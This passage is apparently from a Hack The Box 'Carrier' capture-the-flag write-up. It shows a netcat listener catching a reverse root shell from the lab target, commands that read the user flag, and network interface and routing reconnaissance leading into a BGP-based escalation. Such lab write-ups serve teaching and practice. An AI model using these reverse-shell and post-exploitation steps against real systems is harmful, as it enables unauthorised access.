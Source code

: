 ```bash
root@kali:~/Carrier# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.10.105] 33452
whoami
root
ls
stuff
test_intercept.pcap
user.txt
cat user.txt
56******************************
```

## Privilege escalation by BGP

I got the user.txt file in a root shell?! There's something else on the network. When I checked the web login, I found a `Tickets` menu and an image which looked like a network diagram. Might be relevant here.

![tickets]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/carrier-tickets.png)

Looks like someone is having trouble with FTP on one of the networks.

![tac]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/tac.png)

Now I get it, CastCom network is the one we need to breach (I guess).

```bash
ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:d9:04:ea brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.99.64.2/24 brd 10.99.64.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fed9:4ea/64 scope link
       valid_lft forever preferred_lft forever
10: eth1@if11: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:8a:f2:4f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.10.1/24 brd 10.78.10.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe8a:f24f/64 scope link
       valid_lft forever preferred_lft forever
12: eth2@if13: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:20:98:df brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.11.1/24 brd 10.78.11.255 scope global eth2
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe20:98df/64 scope link
       valid_lft forever preferred_lft forever

route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.99.64.1      0.0.0.0         UG    0      0        0 eth0
10.78.10.0      *               255.255.255.0   U     0      0        0 eth1
10.78.11.0      *               255.255.255.0   U     0      0        0 eth2
10.99.64.0      *               255.255.255.0   U     0      0        0 eth0
```
